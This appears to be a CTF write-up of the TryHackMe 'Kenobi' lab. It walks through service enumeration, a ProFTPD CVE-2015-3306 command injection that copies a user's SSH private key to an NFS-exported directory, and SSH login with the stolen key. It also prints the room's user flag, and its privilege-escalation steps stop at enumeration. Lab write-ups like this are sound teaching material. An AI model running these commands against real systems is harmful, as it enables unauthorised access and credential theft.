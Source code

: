 
---
title: "TryHackMe - Kenobi CTF Walkthrough"
date: 2024-12-18
categories: [TryHackMe]
tags: [CTF, FTP, NFS, Privilege Escalation, CVE-2015-3306]
image: /assets/images/thm-cover/kenobi-cover.jpg
---

# TryHackMe: Kenobi Room Walkthrough

## Room Overview
**Room Name:** Kenobi  
**Difficulty:** Easy  
**Objective:** Exploit the target machine and obtain the user and root flags.

---

## Table of Contents
- [Reconnaissance](#reconnaissance)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

---

## Reconnaissance

### 1. Nmap Scan
The first step was to scan the machine for open ports and services.

```bash
nmap -v -sCV -oN nmap.txt $IP
```

**Open Ports:**
- 21/tcp - FTP (ProFTPD 1.3.5)
- 22/tcp - SSH (OpenSSH 7.2p2 Ubuntu 4ubuntu2.7)
- 80/tcp - HTTP (Apache 2.4.18)
- 139/tcp - NetBIOS-SSN (Samba)
- 445/tcp - NetBIOS-SSN (Samba)
- 2049/tcp - NFS (Network File System)

---

## Enumeration

### 2. SMB Enumeration
We found several SMB shares that are accessible.

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse -oN nmapenum.txt $IP
```

Key findings:
- **\\10.10.140.79\anonymous** - Read/Write access
- **\\10.10.140.79\IPC$** - Read/Write access

You can connect to the `anonymous` share using `smbclient`:

```bash
smbclient //$IP/anonymous -N
ls
```

### 3. NFS Enumeration
The NFS (Network File System) was also exposed, and `/var` was found to be mounted:

```bash
nmap -p 111 --script=nfs-ls,nfs-showmount -oN nmap-port111.txt $IP
```

**NFS Share Found:**
- `/var` directory was exportable.

---

## Exploitation

### 4. ProFTPD Exploit (CVE-2015-3306)
The FTP service (ProFTPD 1.3.5) was vulnerable to a command injection vulnerability that allowed us to copy the SSH private key (`id_rsa`) from the user's home directory.

```bash
nc $IP 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

### 5. Mount NFS Share
Once the SSH private key was copied, I mounted the `/var` directory using NFS to retrieve the `id_rsa` file.

```bash
sudo mkdir /mnt/kenobiNFS
sudo mount $IP:/var /mnt/kenobiNFS
```

Navigate to the directory where the SSH key was copied:
```bash
cd /mnt/kenobiNFS/tmp
```

### 6. SSH Access as `kenobi`
After retrieving the `id_rsa` key, I set the correct permissions and used it to SSH into the target machine as the `kenobi` user.

```bash
chmod 600 id_rsa
ssh -i id_rsa kenobi@$IP
```

### 7. User Flag
Once inside the machine as `kenobi`, I found the `user.txt` flag.

```bash
kenobi@kenobi:~$ ls
share  user.txt

kenobi@kenobi:~$ cat user.txt
d0b0f3f53b6caa532a83915e19224899
```

---

## Privilege Escalation

### 8. Checking `sudo` Permissions
After gaining access as `kenobi`, I checked if the user had any special `sudo` permissions.

```bash
sudo -l
```

Unfortunately, no direct sudo privileges were granted, so I continued to search for other methods of privilege escalation.

### 9. Searching for SUID Binaries
I searched for binaries with the SUID bit set that could be exploited to gain root access.

```bash
find / -perm -u=s -type f 2>/dev/null
```

### 10. Cron Jobs and System Misconfigurations
I checked for scheduled cron jobs and other misconfigurations that might be leveraged for privilege escalation:

```bash
cat /etc/crontab
```

---

## Conclusion

In this room, I was able to:
1. Perform enumeration on FTP, SMB, HTTP, and NFS services.
2. Exploit a vulnerability in ProFTPD to extract an SSH private key.
3. Use the NFS share to retrieve the `id_rsa` key and SSH into the target machine.
4. Successfully obtain the `user.txt` flag.

The room provided a comprehensive understanding of service enumeration, exploitation of file transfer protocols, and privilege escalation paths.

---

### Flags Obtained:
- **User Flag:** `d0b0f3f53b6caa532a83915e19224899`

---

### References:
- [ProFTPD CVE-2015-3306](https://www.exploit-db.com/exploits/36803)
- TryHackMe Kenobi Room
